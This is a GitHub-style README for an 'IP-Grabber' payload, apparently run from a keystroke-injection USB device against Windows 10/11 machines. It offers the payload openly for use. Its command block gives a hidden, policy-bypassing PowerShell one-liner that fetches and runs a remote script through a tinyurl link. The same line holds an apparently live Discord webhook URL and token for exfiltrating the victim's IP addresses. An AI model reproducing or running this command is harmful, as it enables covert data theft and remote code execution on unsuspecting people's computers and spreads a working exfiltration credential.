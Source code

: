 <!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# IP-Grabber

## Description

This payload is meant to do grab your targets IP addresses and exfil them with discord or dropbox

## Getting Started

### Dependencies

* Windows 10,11

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory

`$dc` is the variable that stores your Discord webhook 

`$db` is the variable that stores your Dropbox token 

Fill in either or both of these to methods to exfil your collected data

```
powershell -w h -NoP -Ep Bypass $dc='https://discord.com/api/webhooks/1092996374183813211/Ug1p0cHdytWWGCq7iVR7-JOawkHT0_mLZazlmjM1DSkbLSZA0MumO4xKCmdMX9gc4cez';irm tinyurl.com/ipgrabber3 | iex
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>



<p align="right">(<a href="#top">back to top</a>)</p>
